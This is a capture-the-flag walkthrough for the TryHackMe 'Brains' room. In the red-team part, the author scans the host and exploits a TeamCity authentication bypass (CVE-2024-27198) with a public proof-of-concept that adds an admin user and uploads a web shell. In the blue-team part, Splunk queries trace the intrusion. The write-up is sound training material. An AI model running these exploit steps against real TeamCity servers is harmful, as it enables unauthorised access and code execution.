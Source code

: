 # Brains Walkthrough
<br/>
Welcome to the Lookup challenge, here is the link to the [room](https://tryhackme.com/room/brains) on TryHackMe.

This challenge is divided into 2 parts: in the first one we will be part or the red team and we'll hack into the target to get the flag.

In the second part we will be forsensic analysts and with Splunk we are gonna be investigate and identify the footprints left by the attacker.

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge

### Red
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP brains.thm" | sudo tee -a /etc/hosts
```

Now we scan for open ports with *nmap*:
```bash
nmap -sV -sC brains.thm
```

We find 4 open ports:
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:1f:75:5b:91:0b:80:fa:e0:9c:5e:f0:15:69:ab:1e (RSA)
|   256 85:cf:c6:87:e9:2a:77:44:97:b8:15:0f:e6:55:a9:2d (ECDSA)
|_  256 7b:3e:cc:34:fe:6e:21:17:c5:b2:81:3d:44:f5:20:54 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
8089/tcp  open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2024-07-04T21:42:22
|_Not valid after:  2027-07-04T21:42:22
|_http-server-header: Splunkd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/xml; charset=UTF-8).
50000/tcp open  http     Apache Tomcat (language: en)
|_http-title: TeamCity Maintenance &mdash; TeamCity
| http-methods: 
|_  Potentially risky methods: TRACE
```

First we check port 80, visiting `http://brains.thm/` shows that the server is under maintenance.
Now looking on `http://brains.thm:50000` we get redirected to this login page `http://brains.thm:50000/login.html`.

We see the TeamCity software Version 2023.11.3
This particular version has an authentication bypass vulnerability, we can also see a POC [here](https://github.com/W01fh4cker/CVE-2024-27198-RCE/blob/main/CVE-2024-27198-RCE.py).
Download it (check what you are downloading before running :) ).
Let's set it up
```bash
python3 -m venv venv
source venv/bin/activate
```

Install modules:
```
pip install requests urllib3 faker
```

Run it:
```bash
python exploit.py -t http://brains.thm:50000 --behinder4
```

It will generate for you some valid credentials and upload a web shell, you should get a message like this:
```
User added successfully, username: epifsa7r, password: V0O3WrGRo0, 
Webshell url: http://brains.thm:50000/plugins/salZ79Jk/salZ79Jk.jsp
X-TC-CSRF-Token: 9e780cd1-5351-4b87-8a54-9020d4423e82
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZXhDRVdUSkhXRXlrYmR4UmVtcW5FWHpwU3RZ.OGIzZTI5ZmQtNjIwOC00NmZhLTg0NDQtNGUxMjQ1MGI1YmZl
```

I got a shell but i was not able to read 

It will also give you a shell as the `ubuntu` user, now we can read the flag.txt file located in the home directory:
```bash
cat /home/ubuntu/flag.txt
```
--> REDACTED

<br/>

### Blue
Start the second machine.
Connect to the Splunk instance by navigating to: `http://MACHINE_IP:8000` and login with the credentials: `splunk:analyst123`.

Reached the search page we need to change  the time-span to display on the top right, we want to set it as "all time", next we can load all the logs by sending the query `index=*`, we find about 4k events.

Let's start our investigation!

Looking at the indexes we can see that we have 3:
- main
- auth_logs
- weblogs

The first question ask us to find the name of the backdoor user that was created after exploitation.
We can check the auth logs, with keywords like `new` or `useradd`:
```
index="auth_logs" new 
```

Or either select the field "name", on the left side we click on it and it shows 4 usernames, one clearly stands out:
--> REDACTED

We know that the attacker installed the malicious package, we can filter for installations:
```
index=main install
```

And we find one that is very suspect: REDACTED

Finally the hacker has installed a plugin on the website, we can find the name with:
```
index=weblogs plugin
```
--> REDACTED


> [!NOTE] Note
> In a real scenario we would not stop our search on an item only because look "suspect", we would also need to correlate those events, build a timeline and confirm that for example the installed package and the plugin are actually malicious.

<br/>
<br/>

## Conclusion
Congratulations you have successfully took both the perspective of the attacker and the defender/investigator, you have managed to both exploit the target ad invetigate the malicious tracks.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
